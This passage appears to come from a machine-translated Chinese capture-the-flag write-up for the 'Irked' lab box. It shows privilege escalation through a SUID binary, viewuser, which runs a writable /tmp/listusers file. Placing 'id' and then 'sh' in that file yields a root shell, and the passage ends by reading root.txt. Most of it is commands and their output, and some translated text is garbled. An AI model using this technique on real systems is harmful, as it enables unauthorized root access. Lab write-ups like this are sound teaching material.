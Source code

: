我不认识该文件。我将运行它以查看其功能：`/usr/bin/viewuser`

    djmardov@irked:/dev/shm$ viewuser 
    This application is being devleoped to set and test user permissions
    It is still being actively developed
    (unknown) :0           2019-04-03 06:34 (:0)
    djmardov pts/2        2019-04-04 09:01 (10.10.14.14)
    sh: 1: /tmp/listusers: not found
    

它抛出一个错误，说找不到 。`sh``/tmp/listusers`

    djmardov@irked:~$ echo "test" > /tmp/listusers
    
    djmardov@irked:~$ viewuser 
    This application is being devleoped to set and test user permissions
    It is still being actively developed
    (unknown) :0           2018-11-20 11:57 (:0)
    djmardov pts/0        2018-11-20 11:58 (10.10.14.14)
    djmardov pts/1        2018-11-20 12:36 (10.10.14.14)
    sh: 1: /tmp/listusers: Permission denied
    

权限 - root唯一不能做的就是执行。因此，我将添加它，并将其更改为命令：

    djmardov@irked:~$ chmod +x /tmp/listusers 
    djmardov@irked:~$ echo id > /tmp/listusers 
    djmardov@irked:~$ viewuser 
    This application is being devleoped to set and test user permissions
    It is still being actively developed
    (unknown) :0           2018-11-20 11:57 (:0)
    djmardov pts/0        2018-11-20 11:58 (10.10.14.14)
    djmardov pts/1        2018-11-20 12:36 (10.10.14.14)
    uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
    

有执行力。我将更改命令以获取 shell：

    djmardov@irked:~$ echo sh > /tmp/listusers 
    djmardov@irked:~$ viewuser 
    This application is being devleoped to set and test user permissions
    It is still being actively developed
    (unknown) :0           2018-11-20 11:57 (:0)
    djmardov pts/0        2018-11-20 11:58 (10.10.14.14)
    djmardov pts/1        2018-11-20 12:36 (10.10.14.14)
    # id
    uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
    

我可以抓住：`root.txt`

    # cat /root/root.txt
    8d8e9e8b...
    